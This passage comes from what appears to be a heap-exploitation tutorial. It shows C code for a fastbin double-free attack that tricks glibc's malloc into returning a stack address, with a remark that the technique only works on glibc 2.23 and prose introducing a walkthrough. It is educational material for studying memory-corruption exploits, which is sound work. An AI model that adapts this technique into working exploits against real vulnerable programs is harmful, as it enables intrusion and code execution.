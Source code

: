 ```c

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
        "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
    stack_var = 0x20;

    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

Unfortunately, this attack only works with glibc 2.23. When you compile and run this script, you will be
met with the err message: "free(): invalid pointer", or it will just seg fault. If you do not see the
error message, run it in ltrace and it will show up.

This means the attack is irrelevant right, why are we learning this, are you wasting my time??

No, this will still greatly improve our understanding of such fastbin double free attacks, so lets walk
through this technique, and explain it's similarity to the others, and it's differences that make this
unique.
